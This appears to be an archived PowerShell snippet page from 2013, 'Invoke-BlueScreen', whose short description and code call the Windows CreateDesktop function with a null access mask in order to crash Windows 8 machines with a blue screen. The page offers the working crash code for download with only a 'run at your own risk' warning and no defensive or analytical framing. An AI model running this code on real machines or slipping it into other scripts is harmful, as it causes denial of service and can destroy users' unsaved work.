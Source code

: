 ﻿---
pid:            4216
parent:         0
children:       
poster:         adamdriscoll
title:          Invoke-BlueScreen
date:           2013-06-24 00:34:41
description:    Causes a blue screen on Windows 8 machines. Run at your own risk!! The reason is due to an access violation caused by passing in a null value to the access mask of the CreateDesktop function. 
format:         posh
---

# Invoke-BlueScreen

### [download](4216.ps1)  

Causes a blue screen on Windows 8 machines. Run at your own risk!! The reason is due to an access violation caused by passing in a null value to the access mask of the CreateDesktop function. 

```posh
function Invoke-BlueScreen
{
    Add-Type "
      using System;
      using System.Runtime.InteropServices;
      public class PInvoke
      {
          [DllImport(`"user32.dll`")]
          public static extern IntPtr CreateDesktop(string desktopName, IntPtr device, IntPtr deviceMode, int flags, long accessMask, IntPtr attributes);
      }
    "

    [PInvoke]::CreateDesktop("BSOD", [IntPtr]::Zero, [IntPtr]::Zero, 0, $null, [IntPtr]::Zero)
}
```
